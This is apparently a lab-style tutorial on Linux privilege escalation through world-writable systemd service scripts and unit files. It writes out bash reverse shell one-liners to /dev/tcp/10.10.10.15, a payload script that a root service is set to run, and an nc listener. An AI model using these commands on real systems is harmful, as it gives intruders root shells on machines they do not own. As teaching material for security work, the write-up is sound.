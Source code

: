 # Privilege Escalation via Writable Executable

Add writable permissions to the script:

```shell
sudo chmod o+w /opt/elevate.sh
```

If the script that's being run by the service is writable, we can just write something malicious to the script like adding a reverse shell code:

```shell
user@pwn:~/Desktop$ echo 'bash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /opt/elevate.sh
```

To make this work, we need to restart the service. However, if we are in a session with a user who lacks the necessary capabilities or permissions to restart the service, we have a few options: we can either reboot the system, wait for an opportunity, or persuade the system administrator to restart the service for us. Then we could receive the reverse shell:

```shell
nc -lvnp 1234
```

# Privilege Escalation via Writable Timer

A misconfiguration of this is when others have write permissions to the service configuration file:

```shell
sudo chmod o+w /etc/systemd/system/elevate.service
```

We'll then verify the permissions to confirm that the `others` group is writable:

```shell
ls -l /etc/systemd/system/elevate.service
-rwxr-xrwx 1 root root 96 Nov  5 23:16 /etc/systemd/system/elevate.service
```

We'll create a simple payload:

```shell
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /home/user/evil.sh
```

Then we could edit the service configuration file:

```shell
user@pwn:~/Desktop$ vim /etc/systemd/system/elevate.service
[Unit]
Description=Elevate Script

[Service]
Type=simple
ExecStart=/home/user/evil.sh
User=root
```

